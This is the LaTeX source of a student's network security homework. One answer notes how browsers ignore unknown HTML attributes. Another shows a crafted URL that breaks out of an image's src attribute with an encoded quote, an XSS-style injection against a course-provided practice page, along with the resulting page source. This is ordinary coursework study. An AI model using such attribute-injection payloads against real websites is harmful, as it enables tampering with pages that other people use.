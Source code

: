 \documentclass[12pt,letterpaper]{article}
\author{Jordan Bayles}
\title{Homework 1\\
\small ECE 478: Network Security}
\makeatletter
\let\thetitle\@title
\let\theauthor\@author
\let\thedate\@date
\makeatother
\begin{document}
\begin{flushright}
\theauthor\\
\thedate
\end{flushright}
\begin{center}
\thetitle
\end{center}

\section*{0. Disclaimer}
\emph{This submission reflects my own understanding of the homework and
solutions. All of the ideas are my own, unless I explicitly acknowledge otherwise.}

\section*{1. Unknown HTML tag attributes}
I was unable to find hard information in my actual browser (Mozilla Firefox) documentation,
however according to the HTML standard\footnote{\url{http://bytes.com/topic/html-css/answers/542484-browser-behavior-unknown-tags-attributes}}, the web browser is supposed to simply ignore unknown tags. I tried a simple test case
and this appeared to be the case.

\section*{2. Skull replacement through XSS}
Creating an XSS attack is very straightforward, as you can view the page source. To attack, you
just have to change the URL query value from \verb~color=red~ to point to the img src. Note that
this webpage simply takes the URL query value and sets \verb~src="<URL query value>.png"~ as an
attribute in an \verb~img~ tag. To get around this, we need to make the \verb~.png~ part of
a different tag, the way I did it was like this (ignoring newlines):
\begin{verbatim}
http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/xss-hw1.php?
color=http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/skull.gif
%22%20id=%22bad_image
\end{verbatim}

Resulting in page source looking like:
\begin{lstlisting}
<form method="GET">
  Select your favorite color: 
  <select name="color">
    <option value="blue"  >blue</option>
    <option value="red"  >red</option>
  </select>
  <input type="submit" value="go">
</form>

<img width=100 height=100 src="http://web.engr.oregonstate.edu/~rosulekm/netsec/hw/skull.gif" id="bad_image.png">
\end{lstlisting}
\end{document}
